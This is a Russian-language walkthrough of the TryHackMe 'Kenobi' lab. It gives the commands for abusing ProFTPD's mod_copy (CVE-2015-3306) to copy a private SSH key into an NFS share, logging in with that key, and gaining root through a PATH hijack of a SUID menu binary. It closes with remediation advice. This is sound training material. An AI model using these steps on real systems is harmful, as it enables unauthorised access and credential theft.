










# TryHackMe: Kenobi


*Дата: 26.10.2026*


### Сложность: Easy

**Мой IP: 192.168.130.244**

**IP Цели: 10.114.172.203**

### **Лаборатория: TryHackMe, все действия легитимны**

На сегодняшний день я решил выбрать ещё одну машинку `easy` сложности на TryHackMe - **Kenobi**

**Инструменты: nmap, smbclient, ftp, showmount, mount, ssh, sudo**

---

После запуска OpenVPN и получения `IP` машинки, первым делом я решил просканировать её:

```bash
sudo nmap -sV 10.114.172.203 -p-
```



В первую моё внимание привлёк 21-ый порт, его версия: `ProFTPD 1.3.5` это же **CVE-2015-3306**, который позволяет копировать файлы на сервере без авторизации, но я решил пока что оставить этот порт, ведь что именно копировать пока неизвестно.

Затем моё внимание привлекли два порта, 139 и 445, на которых был запущен `smb (Samba)`,  я решил проверить доступен ли там анонимный вход:

```bash
smbclient -L //10.114.172.203 -N
```



И да, анонимный вход разрешен. Я решаю подключиться и сразу посмотреть, что там есть с помощью команд:

```bash
smbclient //10.114.172.203/anonymous -N # Флаг -N означает анонимный вход без ввода пароля
ls
```



Тут есть файл `log.txt`, давайте скачаем его на kali:

```bash
get log.txt
```



затем читаем этот текстовый документ:

```bash
cat log.txt
```



Из этого лога мы узнаём очень ценную информацию:
  1. пользователя в системе зовут `kenobi`
  2. у пользователя `kenobi` есть `id_rsa` ключ, по пути /home/kenobi/.ssh/id_rsa

А теперь вспоминаем, что 21 порт, на котором открыт `ftp` с **CVE-2015-3306** позволяет скачивать любые файлы на сервере без авторизации командами `SITE CPFR` и `SITE CPTO`, но куда же нам скачивать файл, чтобы потом забрать его на kali? в выводе `nmap` был открыт 2049 порт, на котором есть `nfs`, который позволяет компьютерам в сети обмениваться файлами так, будто они находятся в локальном диске. Однако сам по себе `nfs` не работает так сказать в вакууме, и за то, чтобы сервер и клиент нашли друг друга отвечает `rpcbind`, который запущен на 111-ом порте.

Давайте сначала узнаем, какие папки раздаются в общий доступ. Узнать это можно с помощью `showmount` с флагом `-e`, который показывает все папки, которые `nfs` экспортирует

```bash
showmount -e 10.114.172.203 # 
```



Теперь узнав, что сервер экспортирует все папки внутри `/var`, давайте скачаем `id_rsa` на `/var/tmp` 

```bash
ftp 10.114.172.203 # Жмём два раза enter, то что мы провалили авторизацию нормально
site cpfr /home/kenobi/.ssh/id_rsa # выбираем файл который копировать
site cpto /var/tmp/id_rsa # выбираем куда копировать этот файл
```



Теперь мы скопировали ключ в `/var/tmp` и зная, что `/var` доступна, мы можем подключить её к своей kali, как будто это обычная флешка. Для этого создаём точку монтирования и используем команду `mount`:

```bash
sudo mkdir -p /mnt/kenobi
sudo mount -t nfs 10.114.172.203:/var /mnt/kenobi
```
После этого скопируем его себе в домашнюю папку и отключим сетевую папку, чтобы она не висела просто так:

```bash
cp /mnt/kenobi/tmp/id_rsa ~/id_rsa
sudo umount /mnt/kenobi
```

Теперь с помощью `chmod` ставим права на `id_rsa`, ведь `ssh` не будет использовать его, если на нём слишком широкие права:

```bash
chmod 600 ~/id_rsa
```

И теперь с помощью ключа подключаемся к `ssh`:

```bash
ssh -i ~/id_rsa kenobi@10.114.172.203 # флаг -i означает использовать ~/id_rsa как ключ
```


---

Супер, теперь мы пользователь `kenobi`, давайте поищем файлы с неправильными `SUID` битами:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```



На первый взгляд ничего подозрительного нет, однако если присмотреться можно найти подозрительный файл `/usr/bin/menu`

По умолчанию в Linux нет такого `SUID`-бита, однако смею предположить, что его создали и дали `SUID` бит для удобного использования, давайте сначала запустим его и посмотрим, что же это за `menu`:

```bash
/usr/bin/menu
```



И тут мы видим какое-то меню с тремя вариантами, на данный момент нас интересует третий вариант - `ifconfig`

Уязвимость заключается в том, что сам `menu` не вызывает `ifconfig` напрямую *(напрямую было бы правильно: `/sbin/ifconfig`)* и вместо этого он использует просто `ifconfig`, поэтому если добавить `/tmp` в начало переменной `PATH`, система будет искать команды там. Создав поддельный файл `ifconfig` в `/tmp`, мы заставим уязвимое меню запустить наш скрипт, в котором прописан вызов `/bin/sh` с правами root

```bash
echo "/bin/sh" > /tmp/ifconfig
chmod +x /tmp/ifconfig # Делается чтобы файл можно было запустить (права на исполнение)
```

А теперь меняем PATH:

```bash
export PATH=/tmp:$PATH
```

И теперь проверяем кто мы:

```bash
whoami
```



И теперь под `root` читаем два флага

```bash
cat /home/kenobi/user.txt
cat /root/root.txt
```
### **РЕКОМЕНДАЦИИ ПО УСТРАНЕНИЮ УЯЗВИМОСТЕЙ:**
  1. **Запретить анонимный вход в `smb`**
  2. **Обновить версию `ftp` до новейшей**
  3. **Забрать `SUID` бит у `/usr/bin/menu` и использовать абсолютный путь к `ifconfig` в коде программы (например /sbin/ifconfig)**
